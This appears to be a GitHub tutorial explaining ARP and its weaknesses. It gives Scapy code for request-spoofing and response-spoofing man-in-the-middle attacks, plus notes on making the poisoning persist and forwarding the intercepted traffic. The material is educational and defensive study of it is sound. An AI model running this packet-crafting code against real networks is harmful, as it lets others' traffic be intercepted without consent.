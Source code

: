 # ARP Spoofing

First of all, let's discuss ARP briefly. ARP stands for Address Resolution Protocol (don't say ARP protocol because ARP already includes protocol :sweat_smile:).

Inside a network, hosts communicate using MAC addresses. Communication between different networks is carried out through Network Address Translation (NAT). ARP is used to get a particular host's MAC address with their IP address.

ARP includes two types of operations:

1. **Request**: The host wants to know the MAC address of another host through it's IP and asks everyone whether they have this particular IP.
   - ![ARP Request](https://i.imgur.com/2hAM9tz.png)
2. **Response**: The host with the IP corresponding to a request responds with its MAC address.
   - ![ARP Response](https://i.imgur.com/OoCQ6nV.png)

### Attack

Fundamentally, ARP is flawed, but we don't have a choice.

- It is not possible to verify whether a particular packet came from a host other than checking the header.
  - Crafting a malicious packet is very easy.
- If the host receives a ARP reply, it updates the ARP table even if it has a valid entry.
  - Attacker can repeatedly send malicious packets to keep on updating the victim's ARP table and make the attack persistent.
- If a host sends an ARP request, the responding host updates it's ARP cache for the asker's IP to asker's MAC.
  - More about this in [Request Spoofing](#request-spoofing)

We can implement digital signatures to solve the first problem and a timeout for the second issue. But the thing is, ARP is used on very low-end and high-end CPUs alike. So, If we have to propose a solution to this, the solution must not modify existing protocol. (_Backward compatibility_)

Based on the above flaws, there are several variations to take advantage of this protocol.

### Request Spoofing

![Request Spoofing](https://i.imgur.com/cd7F1Ul.png)

The hosts updates it's ARP table even for the ARP requests. Hence, If an attacker sends a fake request to a host, the host updates it's ARP table and sends an ARP response.

```python
# attacker pretends as victim 1 and asks for victim 2's MAC
pkt1 = scapy.Ether(src=attacker_MAC, dst="ff:ff:ff:ff:ff:ff") / scapy.ARP(
    op=1,
    hwsrc=attacker_MAC,
    psrc=victim1_IP,
    pdst=victim2_IP,
)

# attacker pretends as victim 2 and asks for victim 1's MAC
pkt2 = scapy.Ether(src=attacker_MAC, dst="ff:ff:ff:ff:ff:ff") / scapy.ARP(
    op=1,
    hwsrc=attacker_MAC,
    psrc=victim2_IP,
    pdst=victim1_IP,
)
```

And by repeatedly sending these packets, victim 1's ARP table has the entry, h2_IP:Attacker_MAC and victim 2's ARP table has the entry, h1_IP:Attacker_MAC. In otherwords, Attacker sits in the middle of h1 and h2 in the further communications. Every message between h1 and h2 must pass through attacker. By turning IP forwarding on, Both hosts can communicate as usual, since attacker forwards the packets to the required host. [Code can be found here](arpspoof_request.py).

#### Demo

![Demo](https://i.imgur.com/oZonhAO.png)

### Response Spoofing

![](https://i.imgur.com/OKr0EPN.png)

Similar to ARP Request, we send spoofed response packets to the hosts.

```python
# attacker pretending as victim 1 and answering to victim 2
pkt1 = scapy.Ether(src=attacker_MAC, dst=victim2_MAC) / scapy.ARP(
    op=2,
    hwsrc=attacker_MAC,
    psrc=victim1_IP,
    hwdst=victim2_MAC,
    pdst=victim2_IP,
)

# attacker pretending as victim 2 and answering to victim 1
pkt2 = scapy.Ether(src=attacker_MAC, dst=victim1_MAC) / scapy.ARP(
    op=2,
    hwsrc=attacker_MAC,
    psrc=victim2_IP,
    hwdst=victim1_MAC,
    pdst=victim1_IP,
)
```

We're sending two packets in which we're setting the fake source address.

#### Demo

![Demo](https://i.imgur.com/Oo14zX4.png)
